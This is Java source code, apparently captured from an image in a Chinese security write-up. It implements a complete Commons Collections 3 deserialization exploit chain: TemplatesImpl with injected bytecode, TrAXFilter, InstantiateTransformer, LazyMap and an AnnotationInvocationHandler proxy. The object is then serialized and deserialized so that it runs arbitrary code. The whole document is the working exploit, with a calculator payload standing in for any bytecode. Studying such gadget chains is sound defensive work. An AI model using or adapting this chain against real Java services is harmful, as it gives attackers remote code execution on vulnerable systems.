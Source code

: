 ```
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC3 链最终 EXPpublic class CC3FinalEXP {  
    public static void main(String[] args) throws Exception  
    {  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //    templates.newTransformer();  
  
 InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},  
 new Object[]{templates});  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(TrAXFilter.class), // 构造 setValue 的可控参数  
 instantiateTransformer  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);  
  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 declaredConstructor.setAccessible(true);  
 InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);  
  
 Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()  
                , new Class[]{Map.class}, invocationHandler);  
 Object o = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);  
  
 serialize(o);  
 unserialize("ser.bin");  
 }  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```